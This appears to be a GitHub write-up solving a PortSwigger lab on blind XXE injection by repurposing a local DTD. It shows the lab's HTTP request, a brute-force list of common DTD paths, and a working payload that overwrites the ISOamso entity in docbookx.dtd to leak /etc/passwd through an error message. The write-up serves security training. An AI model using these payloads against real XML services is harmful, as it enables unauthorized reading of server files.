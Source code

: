 ## Lab Description :

![image](https://github.com/sh3bu/Portswigger_labs/assets/67383098/c376d8d9-e800-4e8d-ba2c-92d96b6edcb2)

## Overview :

The preceding technique [using external entities to retreive data by inducing error messages] works fine with an external DTD, but it won't normally work with an internal DTD that is fully specified within the DOCTYPE element. This is because the technique involves using an XML parameter entity within the definition of another parameter entity. **As  per the XML specification, this is permitted in external DTDs but not in internal DTDs. (Some parsers might tolerate it, but many do not.)** 

In blind XXE vulnerabilities when out-of-band interactions are blocked, You can't exfiltrate data via an out-of-band connection, and you can't load an external DTD from a remote server.

In such cases we can perform the following steps,

1. Find any local DTD's present in the server.
2. Redefine/Overwrite the entity in a local DTD file found with a payload to retreive `/etc/passwd`.
3. Induce an error in the payload (non-existent resource) , so that in the response we get the error along with the contents of /etc/passwd.

> Payload - https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/XXE%20Injection/README.md#windows-local-dtd-and-side-channel-leak-to-disclose-http-responsefile-contents

## Solution :

Clicking on checkstock feature sends the following request,

```xml
POST /product/stock HTTP/2
Host: 0a2600c803d5054782fe938700bd00e8.web-security-academy.net
Cookie: session=wDrayLHAxtyDwXHTFHEpvEYW5kFaS3zu
User-Agent: Mozilla/5.0 (X11; Ubuntu; Linux x86_64; rv:106.0) Gecko/20100101 Firefox/106.0
Accept: */*
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Referer: https://0a2600c803d5054782fe938700bd00e8.web-security-academy.net/product?productId=2
Content-Type: application/xml
Content-Length: 107
Origin: https://0a2600c803d5054782fe938700bd00e8.web-security-academy.net
Sec-Fetch-Dest: empty
Sec-Fetch-Mode: cors
Sec-Fetch-Site: same-origin
Te: trailers

<?xml version="1.0" encoding="UTF-8"?>
<stockCheck>
  <productId>2</productId>
  <storeId>1</storeId>
</stockCheck>
```

#### Identify which  local DTD is present on the server -

First let's declare a DOCTYPE with an external entity pointing to a **file that actually exist** 

- `<!DOCTYPE example [<!ENTITY % file SYSTEM "file:///etc/passwd"> %file;]>`


We get this XML parsing error in response.

![image](https://github.com/sh3bu/Portswigger_labs/assets/67383098/b0d4f2dd-0d32-47db-a57d-228e83804983)


What if we gave an **non-existent file** ? with a modification in the DOCTYPE 

- `<!DOCTYPE example [<!ENTITY % file SYSTEM "file:///doesnotexist"> %file;]>`

This time we get a **File not found error**.

![image](https://github.com/sh3bu/Portswigger_labs/assets/67383098/1e2e51e7-2b29-4d58-a08b-5b22d6772508)


With this information that we've enumerated, we can bruteforce the files with a list of known and available DTD's to find which DTD's exist and which do not.

> Reference -
>
> Blog post on repurposing a DTD - https://www.gosecure.net/blog/2019/07/16/automating-local-dtd-discovery-for-xxe-exploitation/

```bash
./properties/schemas/j2ee/XMLSchema.dtd
./../properties/schemas/j2ee/XMLSchema.dtd
./../../properties/schemas/j2ee/XMLSchema.dtd
/usr/share/java/jsp-api-2.2.jar!/javax/servlet/jsp/resources/jspxml.dtd
/usr/share/java/jsp-api-2.3.jar!/javax/servlet/jsp/resources/jspxml.dtd
/root/usr/share/doc/rh-python34-python-docutils-0.12/docs/ref/docutils.dtd
/root/usr/share/doc/rh-python35-python-docutils-0.12/docs/ref/docutils.dtd
/usr/share/doc/python2-docutils/docs/ref/docutils.dtd
/usr/share/yelp/dtd/docbookx.dtd
/usr/share/xml/fontconfig/fonts.dtd
/usr/share/xml/scrollkeeper/dtds/scrollkeeper-omf.dtd
/usr/lib64/erlang/lib/docbuilder-0.9.8.11/dtd/application.dtd
/usr/share/boostbook/dtd/1.1/boostbook.dtd
/usr/share/boostbook/dtd/boostbook.dtd
/usr/share/dblatex/schema/dblatex-config.dtd
/usr/share/struts/struts-config_1_0.dtd
/opt/sas/sw/tomcat/shared/lib/jsp-api.jar!/javax/servlet/jsp/resources/jspxml.dtd
```

- Send the request to Intruder & add the `file:///`  position to bruteforce.

```xml
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE example [<!ENTITY % file SYSTEM "file://§/donotexist§"> %file;]>
 <stockCheck>
  <productId>2</productId>
  <storeId>1</storeId>
 </stockCheck>
```

- Add payload as list of these DTD's to bruteforce to find which of the DTD's which are existing

- Uncheck the  `URL encode characters` option

- ![image](https://github.com/sh3bu/Portswigger_labs/assets/67383098/d6b1d583-2242-418c-9fc0-6463ab2f50fe)

Start attack.

From the result , we can see that only 2 DTD's are present on the server

- `/usr/share/yelp/dtd/docbookx.dtd`
- `/usr/share/xml/fontconfig/fonts.dtd`

![image](https://github.com/sh3bu/Portswigger_labs/assets/67383098/0b3e525d-ece8-4f40-bb78-0872924cb12f)


Now we need to find what entities are defined in that particular DTD to overwrite them. For this we have to search online & do some research.

For the sake of completing this lab & not wasting time, we have been given the name of the entitiy which is `ISOamso`.

#### Overwriting the entitiy in docbookx.dtd -

This payload below overwrites the `ISOamso` entity in the local DTD named `docbookx.dtd` with the contents of `/etc/passwd`.

Then it uses an external entity to retreive an nonexistent file which then induces an error. So we will get the error and the contents of /etc/passwd in the response.

```xml
<!DOCTYPE message [
<!ENTITY % local_dtd SYSTEM "file:///usr/share/yelp/dtd/docbookx.dtd">
<!ENTITY % ISOamso '
<!ENTITY &#x25; file SYSTEM "file:///etc/passwd">
<!ENTITY &#x25; eval "<!ENTITY &#x26;#x25; error SYSTEM &#x27;file:///nonexistent/&#x25;file;&#x27;>">
&#x25;eval;
&#x25;error;
'>
%local_dtd;
]>
```

![image](https://github.com/sh3bu/Portswigger_labs/assets/67383098/4266ebd5-327c-42c7-aa08-899193a3ac50)


Thus we've solved the lab.

![image](https://github.com/sh3bu/Portswigger_labs/assets/67383098/676da997-eb39-42fa-a258-eb3c9100603e)









